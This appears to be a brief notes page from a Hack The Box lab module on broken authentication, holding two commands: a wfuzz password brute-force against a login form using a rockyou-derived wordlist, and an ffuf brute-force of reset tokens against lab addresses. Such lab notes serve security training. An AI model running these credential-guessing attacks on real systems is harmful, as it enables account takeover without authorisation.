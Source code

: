```yaml
---
{"dg-publish":true,"permalink":"/htb-module-writeups/broken-authorization-module-notes/"}
---
```


wfuzz -c -w filteredrockyou.txt -d "userid=htbuser&passwd=FUZZ&submit=submit" http://68.183.35.199:32650/


ffuf -w tokens.txt -u http://165.22.123.238:31638/question1 -X POST -d 'token=FUZZ&submit=check' -r -fs 1720

